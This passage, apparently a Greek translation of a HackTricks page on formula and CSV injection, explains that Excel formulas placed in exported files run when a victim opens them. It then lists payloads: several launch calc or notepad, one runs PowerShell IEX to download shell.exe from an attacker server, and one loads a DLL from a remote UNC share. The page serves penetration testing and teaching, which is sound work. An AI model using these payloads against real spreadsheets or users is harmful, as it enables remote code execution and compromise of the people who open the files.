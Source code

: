 # Εισαγωγή Τύπου/CSV/Εγγράφου/LaTeX/GhostScript

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary></details>

**Ομάδα Ασφαλείας Try Hard**

<figure><img src="../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Εισαγωγή Τύπου

### Πληροφορίες

Αν το **input** σας **αντανακλάται** μέσα σε **αρχεία CSV** (ή οποιοδήποτε άλλο αρχείο που πιθανόν να ανοίξει ο **Excel**), μπορείτε ενδεχομένως να τοποθετήσετε **τύπους Excel** που θα **εκτελεστούν** όταν ο χρήστης **ανοίξει το αρχείο** ή όταν ο χρήστης **κάνει κλικ σε κάποιο σύνδεσμο** μέσα στο φύλλο Excel.

{% hint style="danger" %}
Σήμερα το **Excel θα ειδοποιήσει** (πολλές φορές) τον **χρήστη όταν κάτι φορτώνεται από έξω από το Excel** προκειμένου να τον προστατεύσει από κακόβουλες ενέργειες. Συνεπώς, πρέπει να εφαρμοστεί ειδική προσπάθεια στον Κοινωνικό Μηχανισμό για τον τελικό φορτίο.
{% endhint %}

### [Λίστα Λέξεων](https://github.com/payloadbox/csv-injection-payloads)
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```
### Υπερσύνδεσμος
